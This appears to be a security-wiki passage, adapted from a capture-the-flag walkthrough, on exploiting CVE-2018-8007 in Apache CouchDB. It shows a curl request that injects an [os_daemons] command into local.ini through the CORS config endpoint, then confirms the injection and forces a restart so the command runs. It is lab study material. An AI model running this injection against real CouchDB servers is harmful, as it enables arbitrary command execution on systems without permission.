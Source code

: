 ### **Exploiting CVE-2018-8007 through Modification of local.ini**

Example [from here](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

A recently disclosed vulnerability, CVE-2018-8007, affecting Apache CouchDB was explored, revealing that exploitation requires write permissions to the `local.ini` file. Although not directly applicable to the initial target system due to security restrictions, modifications were made to grant write access to the `local.ini` file for exploration purposes. Detailed steps and code examples are provided below, demonstrating the process.

First, the environment is prepared by ensuring the `local.ini` file is writable, verified by listing the permissions:

```bash
root@canape:/home/homer/etc# ls -l
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
```

To exploit the vulnerability, a curl command is executed, targeting the `cors/origins` configuration in `local.ini`. This injects a new origin along with additional commands under the `[os_daemons]` section, aiming to execute arbitrary code:

```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```

Subsequent verification shows the injected configuration in `local.ini`, contrasting it with a backup to highlight the changes:

```bash
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
< [cors]
< origins = 0xdf
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```

Initially, the expected file (`/tmp/0xdf`) does not exist, indicating that the injected command has not been executed yet. Further investigation reveals that processes related to CouchDB are running, including one that could potentially execute the injected command:

```bash
root@canape:/home/homer/bin# ps aux | grep couch
```

By terminating the identified CouchDB process and allowing the system to automatically restart it, the execution of the injected command is triggered, confirmed by the existence of the previously missing file:

```bash
root@canape:/home/homer/etc# kill 711
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```
